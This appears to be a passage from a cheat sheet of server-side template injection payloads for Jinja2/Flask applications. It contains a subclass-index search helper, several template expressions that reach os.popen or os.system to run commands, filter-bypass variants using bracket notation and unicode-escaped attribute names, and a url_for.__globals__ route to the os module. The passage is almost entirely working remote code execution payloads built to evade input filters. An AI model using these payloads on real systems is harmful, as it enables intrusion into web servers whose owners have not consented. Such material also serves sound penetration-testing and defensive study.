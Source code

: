 ```python
def searchfunc(name):
	x = 'str'.__class__.mro()[1].__subclasses__()
	for i in range(len(x)):
		fn = x[i].__name__
		if fn.find(name) > -1:
			print(i, fn)

searchfunc('warning')
```

```python
{{ ''.__class__.__base__.__subclasses__()[146].__init__.__globals__['sys'].modules['os'].popen('id').read() }}
```

```python
{{ ''.__class__.__mro__[1].__subclasses__()[147]()._module.__builtins__['__import__']('os').system('id') }}
```

## Bypass Filters

### Bypass blocked`.`

```python
{{ ''.__class__.__mro__[1].__subclasses__()[147]()._module.__builtins__['__import__']('os').system('id') }}
```

```bash
{{ ''['__class__']['__mro__'][1]['__subclasses__'][index_of_catch_warnings]['__init__']['__globals__']['sys']['modules']['os']['popen']('id')['read']() }}
```

### Bypass blocked strings using unicode

```python
{{''['\U0000005F\U0000005F\U00000063\U0000006c\U00000061\U00000073\U00000073\U0000005F\U0000005F']['\U0000005f\U0000005f\U0000006d\U00000072\U0000006f\U0000005f\U0000005f'][1]['\U0000005f\U0000005f\U00000073\U00000075\U00000062\U00000063\U0000006c\U00000061\U00000073\U00000073\U00000065\U00000073\U0000005f\U0000005f']()[207]['\U0000005f\U0000005f\U00000069\U0000006e\U00000069\U00000074\U0000005f\U0000005f']['\U0000005f\U0000005f\U00000067\U0000006c\U0000006f\U00000062\U00000061\U0000006c\U00000073\U0000005f\U0000005f']['sys']}}
```

The application returns `0` in its response. This is the return of the value of the command we just executed. `0` indicates that the command was executed without errors.

## ⇒ Using `Flask.url_for`

```python
url_for.__globals__.os.popen("id").read() 
# url_for is a popular flask method whose file imports os module (helpers.py)
```

---